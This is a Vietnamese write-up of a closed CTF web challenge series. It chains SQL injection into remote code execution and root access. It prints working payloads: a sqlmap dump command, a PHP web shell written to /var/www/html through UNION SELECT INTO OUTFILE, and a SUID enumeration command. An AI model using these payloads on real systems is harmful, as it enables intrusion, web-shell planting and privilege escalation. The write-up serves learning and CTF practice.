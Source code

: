 ## 1. Về Challange
Đây là giải CTF của EFIENS Individual CTF, team hiện đứng thứ 3 VN trên CTFtime.org, được tổ chức bằng hình thức Jeopardy  từ 24/11 - 1/12. Trong số các bài về Web có một series gồm 3 bài về SQLi => RCE => Get **ROOT**.<br><br>
Qua các challange này, các bạn sẽ có thêm kiến thức về sự nguy hiểm của SQLi, cũng như việc upload reverse shell để thực thi lệnh trên victim, cũng như về Privilege Escalation trong Linux. <br><br>
<b>Hiện tại sever đã đóng </b>

## 2. Write up

### 2.1. SQL Injection
Website cho phép ta tra cứu thông tin của CSA officer theo ID, khi ta nhập ID vào, Website sẽ trả cho ta value tương ứng như hình dưới, với 4 cột cụ thể:<br><br>
![](https://images.viblo.asia/f1e731f0-82fa-4508-8c5d-7cc314a15b62.png)<br>
Để chắc chắn chỉ có 4 cột, ta nhập query: <br>
` 10" order by  5#` : Không trả ra row kết quả nào => Lỗi => Chỉ có 4 cột như trên<br><br>
Dự đoán query phía backend: <Br>
`SELECT id, name, username, email FROM TABLE_NAME WHERE id = $_POST['text']` <br><br>
Tuy là ban đầu làm mình inject query bằng tay và vẫn ra flag, nhưng với những trường hợp như thế này chúng ta vẫn nên tiết kiệm thời gian bằng cách sử dụng tools, cụ thể là SQLmap:<br>
    Câu lệnh: `sudo sqlmap -r sqli.req --dump` với sqli.req là file text chứa request gửi lên Web Server<br><br>
    ![](https://images.viblo.asia/9e3c126a-1ae4-4b8a-8201-56abf3c4f4c2.png)

    
###     2.2. Remote Code Execution
Từ SQLi to RCE, nhất là đối với website sử dụng LAMP Stack như website trên, các bạn có thể tham khảo video đã đươc trình bày ở DEFCON tại [đây](https://www.youtube.com/watch?v=Uz6G_YAQb2U&t=1801s) . Hình ảnh được lấy từ video.<Br><br>. 
    ![](https://images.viblo.asia/32df0c50-73a8-47e3-9f58-0f231072c20c.png)

    
 Từ SQLi, chúng ta có thể ghi đè 1 file trên sever, trong trường hợp này mình sẽ tạo mới 1 file PHP với payload đơn giản bên trong:<br>
   ` <?php system($_GET["cmd"]); ?>` và đưa lên Web Sever, Payload:<br><br>
`    " UNION SELECT 1,2,3,'123 <?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/html/rce.php'#`<br><br>
Sau khi RCE thành công, việc đơn giản còn lại chỉ là cat flag.txt <br>
    ![](https://images.viblo.asia/d06519b6-5509-4bf3-9588-62b7f8a17d6e.png)

### 2.3.    Get Root
 Về Privilege Escalation, chúng ta có 6 methods chính, trong bài này chúng ta sẽ sử dụng: **Exploiting SUID executables**.
 Bài viết chi tiết các bạn có thể tham khảo tại [đây](https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/). <br><Br>
    Trong bài này, khi đã netcat thành công, mình sẽ netcat thêm một lần nữa để có thể dùng 1 reverse shell dựa trên PHP. Như vậy sẽ dễ thao tác hơn.<br><br>
    Liệt kê tất cả các binaries có SUID permissions: `find / -perm -u=s -type f 2>/dev/null`<br><br>
    Với SUID `time`  chúng ta có thể thực thi như Root:<br>

![](https://images.viblo.asia/b14918cc-cdea-4d05-a3a6-f9b57bc9b798.png)<br><br>
Game là dễ, đến đây chỉ việc cat flag:<br>
    ![](https://images.viblo.asia/269f4409-8651-4901-b041-d77f1d178648.png)

##     3. Kết luận
Đây là 1 challange mở và thú vị. Thông qua việc tìm các flag, các bạn có thể học thêm một số thứ về security và các lỗ hổng nguy hiểm đối với hệ thống.